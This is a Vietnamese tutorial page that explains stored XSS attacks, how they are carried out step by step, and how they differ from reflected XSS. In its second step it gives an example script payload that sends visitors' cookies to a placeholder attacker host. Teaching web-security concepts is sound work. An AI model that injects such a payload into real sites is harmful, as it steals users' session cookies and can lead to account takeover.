 # Stored XSS là gì?

Stored XSS là dạng tấn công mà hacker chèn trực tiếp các mã độc vào cơ sở dữ liệu của website. Dạng tấn công này xảy ra khi các dữ liệu được gửi lên server không được kiểm tra kỹ lưỡng mà lưu trực tiếp vào cơ sở dữ liệu. Khi người dùng truy cập vào trang web này thì những đoạn script độc hại sẽ được thực thi chung với quá trình load trang web.
Điều này làm cho Stored XSS nguy hiểm hơn Reflected XSS vì nó có thể ảnh hưởng đến một số lượng lớn người dùng mà không cần kẻ tấn công phải thực hiện bất kỳ hành động bổ sung nào

### Stored XSS được triển khai như thế nào?

<p align="center">
<img width="801" alt="Ảnh chụp Màn hình 2025-03-31 lúc 15 12 58" src="https://github.com/user-attachments/assets/2db17621-c17d-476e-b174-236e9846137f" />
</p>

**Bước 1:** Kẻ tấn công tìm kiếm các trường nhập liệu mà nội dung của chúng được lưu lại và hiển thị sau này. Các vị trí tìm năng như: Bình luận, bài đăng, hộp chat tin nhắn, trang quản trị hiển thị log truy cập... 

**Bước 2:** Nếu hệ thống không được mã hóa dữ liệu đầu vào, kẻ tấn công có thể gửi 1 đoạn script độc hại để lưu trữ trong cơ sở dữ liệu.
**Ví dụ:**
```
<script>fetch('http://attacker.com?cookie='+document.cookie);</script>
```
> Hành động này cho phép kẻ tấn công lấy được cookie người dùng nếu họ vô tình truy cập vào nơi được lưu trữ mã độc.

**Bước 3:** Kẻ tấn công chờ đợi người dùng truy cập trang có chứa mã độc.( Giả sử mã độc được lưu trữ lại bình luận của 1 bài viết thì khi bất kì ai truy cập vào trang hiển thị bình luận sẽ thấy được đoạn script chạy trong trình duyệt của họ.)

**Tóm lại:** Với Stored XSS thì kẻ tấn công chỉ cần tìm thấy các điểm đầu vào không được xử lý để chèn các đoạn mã nguy hiểm vào CSDL. Sau đó chỉ cần chờ đợi người dùng truy cập vào ứng dụng web và thực hiện các thao tác liên quan đến dữ liệu được lưu này, đoạn mã của kẻ tấn công sẽ được thực thi trên trình duyệt người dùng. Vì lí do này mà kỹ thuật Stored XSS còn được gọi là second-order XSS.

### Reflected XSS và Stored XSS có 2 sự khác biệt lớn trong quá trình tấn công.

- Thứ nhất, để khai thác Reflected XSS, kẻ tấn công phải lừa được nạn nhân truy cập vào URL của mình. Còn Stored XSS không cần phải thực hiện việc này, sau khi chèn được mã nguy hiểm vào CSDL của ứng dụng, kẻ tấn công chỉ việc ngồi chờ nạn nhân tự động truy cập vào. Với nạn nhân, việc này là hoàn toàn bình thường vì họ không hề hay biết dữ liệu mình truy cập đã bị nhiễm độc.

- Thứ 2, mục tiêu của kẻ tấn công sẽ dễ dàng đạt được hơn nếu tại thời điểm tấn công nạn nhân vẫn trong phiên làm việc(session) của ứng dụng web. Với Reflected XSS, kẻ tấn công có thể thuyết phục hay lừa nạn nhân đăng nhập rồi truy cập đến URL mà hắn ta cung cấp để thực thi mã độc. Nhưng Stored XSS thì khác, vì mã độc đã được lưu trong CSDL Web nên bất cứ khi nào người dùng truy cập các chức năng liên quan thì mã độc sẽ được thực thi, và nhiều khả năng là những chức năng này yêu cầu phải xác thực(đăng nhập) trước nên hiển nhiên trong thời gian này người dùng vẫn đang trong phiên làm việc.

Từ những điều này có thể thấy Stored XSS nguy hiểm hơn Reflected XSS rất nhiều, đối tượng bị ảnh hưởng có thế là tất cả nhưng người sử dụng ứng dụng web đó. Và nếu nạn nhân có vai trò quản trị thì còn có nguy cơ bị chiếm quyền điều khiển web.
